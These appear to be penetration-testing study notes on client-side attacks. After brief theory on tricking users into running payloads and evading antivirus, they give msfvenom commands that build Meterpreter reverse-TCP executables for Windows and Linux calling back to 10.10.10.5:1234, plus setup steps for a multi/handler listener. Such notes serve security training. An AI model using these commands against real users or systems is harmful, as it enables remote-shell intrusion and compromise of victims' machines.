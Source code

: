 #### Basic Theory
- A client side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.
- Client side attacks typically utilize various social engineering techniques like generating malicious decuments or portable executables (PEs)
- Client side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.
- Given that this attack vector involves the transfer and storage of a malicious payload on the clients system disk,attackers need to be cognisant of av detection.

#### Creating paylaods
- msfvenom [ list all the available help menu]
- msfvenom --list payloads [ list all the available payloads ]
- msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payload1.exe [ a flag is used to set architecture here x86 means it's 32 bit p flag is used to specify payload ]
- msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payload2.exe [ a payload for 64 bit windows machine ]
- msfvenom --list formats [ this will list all the available payload output format ]
- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf >payload3 [ this will create a linux reverse shell for 32 bit machine ]
-  msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf >payload4 [ this will create a payload for linux 64 bit machine ]

#### Transfering file
- after creating we need to transfer the file
- we will use multi/handler  meterpreter module to get meterpreter shell as we generate meterpreter payloads
- We need to configure multi/handler variables those matching with payload,lhost,lport while the creating shell by msfvenom 
  
